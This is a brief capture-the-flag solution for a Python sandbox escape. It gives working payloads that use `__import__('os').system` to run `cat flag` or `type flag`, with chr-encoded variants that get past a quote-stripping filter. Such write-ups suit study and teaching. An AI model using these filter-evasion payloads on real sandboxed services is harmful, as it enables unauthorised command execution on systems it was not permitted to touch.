 # Solution
You have access to global variables (see `g`), just `open` is blacklisted.

That means you can import stuff using `__import__`.

Since `"` and `'` are replaced from the input with an empty string, you need to create your string using `chr(ascii)`

The following executes a system command to print the contents of the file.
##### Windows: 
```py
__import__("os").system("type flag")
# encoded:
__import__(str().join(map(chr, [0x6F, 0x73]))).system(str().join(map(chr, [0x74, 0x79, 0x70, 0x65, 0x20, 0x66, 0x6C, 0x61, 0x67])))
```
##### Unix:
```py
__import__("os").system("cat flag")
# encoded:
__import__(str().join(map(chr, [0x6F, 0x73]))).system(str().join(map(chr, [0x63, 0x61, 0x74, 0x20, 0x66, 0x6C, 0x61, 0x67])))
```
